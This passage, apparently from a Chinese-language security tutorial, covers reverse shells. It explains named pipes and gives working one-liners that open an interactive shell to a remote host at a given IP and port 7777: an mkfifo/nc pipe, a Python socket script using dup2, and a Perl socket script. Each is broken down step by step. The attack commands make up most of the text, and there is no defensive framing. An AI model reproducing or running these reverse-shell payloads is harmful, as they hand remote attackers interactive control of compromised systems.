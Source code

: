 ![img](https://img2018.cnblogs.com/blog/532548/201912/532548-20191215104646111-1137243959.png)

bash进程的输入输出都来自其他进程的pipe。

### 2. 基于命名管道（fifo）

fifo是命名管道也被称为FIFO文件，它是一种特殊类型的文件，它在文件系统中以文件名的形式存在（因为多个进程要识别），它的行为和匿名管道类似（一端读一端写），但是FIFO文件也不在磁盘进行存储。一般用于进程间的通信。

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 110.211.55.2 7777 >/tmp/f
```

- mkfifo 命令首先创建了一个管道
- cat 将管道里面的内容输出传递给/bin/sh
- sh会执行管道里的命令并将标准输出和标准错误输出结果通过 nc 传到该管道，由此形成了一个回路

## 0x4：git解释性脚本语言反弹shell

### 1. python反弹shell



```
python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ip',port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"

# 拆成多行方便阅读
import os,socket,subprocess
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('ip',port))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(['/bin/bash','-i'])
```



- 使用duo2方法将第二个形参（文件描述符）指向第一个形参（socket链接）
  - os.dup2(s.fileno(),0)
  - os.dup2(s.fileno(),1)
  - os.dup2(s.fileno(),2)
- 使用os的subprocess在本地开启一个子进程，启动bash交互模式，标准输入、标准输出、标准错误输出被重定向到了远程

### 2. perl反弹shell 

```
perl -e 'use Socket;$i=”10.211.55.2";$p=7777;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

# 拆成多行方便阅读
use Socket
$i=”10.211.55.2"
$p=7777
socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"))
if(connect(S,sockaddr_in($p,inet_aton($i)))){
    open(STDIN,">&S")
    open(STDOUT,">&S")
    open(STDERR,">&S")
    exec("/bin/sh -i")
}
```
